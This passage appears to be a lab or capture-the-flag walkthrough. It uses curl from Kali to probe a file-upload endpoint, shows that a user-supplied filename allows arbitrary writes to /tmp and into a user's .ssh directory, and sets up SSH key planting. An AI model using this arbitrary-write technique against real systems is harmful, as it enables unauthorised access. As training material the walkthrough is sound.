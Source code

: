  

We begin by testing the file upload option:

  

kali@kali:~$ echo "Hacking?" > test.txt

  

The following request should set the "file" part of the POST request.

  

kali@kali:~$ curl -F file=@test.txt http://192.168.56.101:33414/file-upload

{"message":"No filename part in the request"}

  

Now we set the filename:

  

kali@kali:~$ curl -F filename="up.txt" -F file=@test.txt http://192.168.56.101:33414/file-upload

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">

<title>500 Internal Server Error</title>

<h1>Internal Server Error</h1>

<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

  

We receive a "500" Internal Server Error. As mentioned earlier the server is currently pointing to root, so we likely do not have write permissions. Next, we attempt to set a directory in the request:

  

kali@kali:~$ curl -F filename="/tmp/up.txt" -F file=@test.txt http://192.168.56.101:33414/file-upload

{"message":"File successfully uploaded /tmp/up.txt"}

  

This will provide useful information about the directory, such as identifying if a folder/file exists, if it is writeable, and more. We will first test to confirm that the user "alfredo" exists:

  

kali@kali:~$ curl -F filename="/home/alfredo/up.txt" -F file=@test.txt http://192.168.56.101:33414/file-upload

{"message":"File successfully uploaded /home/alfredo/up.txt"}

  

kali@kali:~$ curl -F filename="/home/alfredo/.ssh/up.txt" -F file=@test.txt http://192.168.56.101:33414/file-upload

{"message":"File successfully uploaded /home/alfredo/.ssh/up.txt"}

  

We confirmed not only that the user "alfredo" exists, but that we can also write in his home directory where there is an .ssh folder.
